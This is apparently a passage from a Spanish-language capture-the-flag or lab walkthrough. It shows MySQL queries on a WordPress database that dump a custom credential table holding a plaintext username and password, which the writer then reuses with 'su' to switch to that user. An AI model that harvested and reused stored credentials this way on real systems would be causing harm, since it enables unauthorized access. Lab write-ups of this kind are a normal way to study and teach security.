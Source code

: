 Las tablas.

```shell
use wordpress;
show tables;
```

Info:

```
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_usernames          |
| wp_users              |
+-----------------------+
13 rows in set (0.00 sec)
```

Las credenciales de la tabla `wp_usernames`.

```shell
select * from wp_usernames;
```

Info:

```
+----+----------+-----------------+---------------------+
| id | username | password        | created_at          |
+----+----------+-----------------+---------------------+
|  1 | enter    | kernellinuxhack | 2024-08-22 13:18:04 |
+----+----------+-----------------+---------------------+
1 row in set (0.00 sec)
```

Por lo que nos cambiaremos al usuario `enter`.

```
User = enter
Pass = kernellinuxhack
```

```shell
su enter
```
